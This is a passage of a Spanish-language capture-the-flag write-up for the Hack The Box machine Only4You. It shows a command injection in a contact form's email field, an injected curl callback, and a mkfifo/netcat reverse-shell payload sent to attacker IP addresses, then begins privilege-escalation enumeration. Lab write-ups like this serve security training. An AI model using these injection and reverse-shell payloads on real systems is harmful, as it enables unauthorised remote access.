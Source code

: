 Vemos que en la asignación de la variable `result` se está utilizando la función `run()`. A la que se le pasa el parámetro `email` que llega en la propia petición. Por tanto podemos volver a interceptar una petición y editarla con [[burpsuite]] para inyectar comandos en [[Bash]]:

```http
POST / HTTP/1.1
Host: only4you.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: es-ES,es;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 84
Origin: http://only4you.htb
Connection: close
Referer: http://only4you.htb/
Upgrade-Insecure-Requests: 1

name=dsfds&email=hola%40hola.com;curl 10.10.16.65:30303&subject=hola&message=hola
```

En este caso, probamos a hacer una petición a un servidor http con [[python]] (`sudo python3 -m http.server 30303`). Recibimos la respuesta, así que confirmamos que es vulnerable a [[RCE]].

## Explotación

Vamos a tratar de entablarnos una reverse shell ([[Reverse shell]]). Para ello nos podremos en escucha con [[netcat]]:

```bash
nc -lvnp 30303
```

E inyectaremos la reverse shell (`rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f`) en la petición con [[burpsuite]]:

```http
name=asdas&email=hola%40hola.hola;rm+/tmp/f%3bmkfifo+/tmp/f%3bcat+/tmp/f|/bin/sh+-i+2>%261|nc+10.10.16.54+39393+>/tmp/f&subject=hola%40hola.hola&message=asdasda
```

Y deberíamos obtener una shell como **www-data**. A continuación aplicamos un [[Tratamiento de la tty]], y procederemos con el [[Reconocimiento del equipo]].

## Escalada de privilegios (User)

No parece haber ningún archivo interesante, sin embargo, si tratamos de enumerar puertos con [[netstat]]:

```bash
netstat -t
```
```netstat
[...]
tcp        0      0 localhost:8001          localhost:59528         TIME_WAIT  
tcp        0      0 localhost:46930         localhost:7687          TIME_WAIT
[...]
```
